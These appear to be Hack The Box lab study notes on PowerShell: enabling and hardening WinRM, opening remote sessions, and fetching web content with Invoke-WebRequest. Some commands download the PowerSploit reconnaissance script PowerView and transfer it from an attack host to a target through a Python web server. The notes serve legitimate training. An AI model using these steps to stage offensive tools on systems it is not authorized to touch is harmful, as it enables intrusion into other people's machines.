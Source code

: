 ## Remote Access - WinRM
Enable Windows Remote Management (WinRM): `winrm quickconfig`  
Recommended Security Hardening options:
- Configure TrustedHosts to include just IP addresses/hostnames that will be used for remote management
- Configure HTTPS for transport
- Join Windows systems to an Active Directory Domain Environment and Enforce Kerberos Authentication
To test access: `Test-WSMan -ComputerName "<RemoteComputerIPAddress>"` we can also test if WinRM is authenticated by adding `-Authentication Negotiate`.

## Remote Access - Remote PowerShell Session
`Enter-PSSession` establishes a PowerShell session on a remote windows target. Command: `Enter-PSSession -ComputerName <RemoteHostIPAddress> -Credential <UserName> -Authentication Negotiate`

This also works from Linux machines since we can install PS on them and run `Enter-PSSession` from there.

# Interacting With The Web
`Invoke-WebRequest -Uri "<URI>" -Method GET` Allows us to get the web page that has the specified URI. After that we can filter for raw content or images using:
```powershell-session
PS C:\htb> Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | fl Images

Images : {@{innerHTML=; innerText=; outerHTML=<IMG alt="Pretty Picture"
         src="example/prettypicture.jpg">; outerText=; tagName=IMG; alt=Pretty Picture;
         src=example/prettypicture.jpg}, @{innerHTML=; innerText=; outerHTML=<IMG alt="Pretty
         Picture" src="example/prettypicture.jpg" align=top>; outerText=; tagName=IMG; alt=Pretty
         Picture; src=example/prettypicture.jpg; align=top}}
```

We can also use it to download files from the web like:
```powershell-session
PS C:\> Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```

## Transferring Files Through Network
If we have a file on our attack host (assume its IP address is: 10.10.14.169) that we want to transfer to the target we can first set up a python web server on the attack host:
```shell-session
AnasSalhen@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
On the target host run:
```powershell-session
Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```
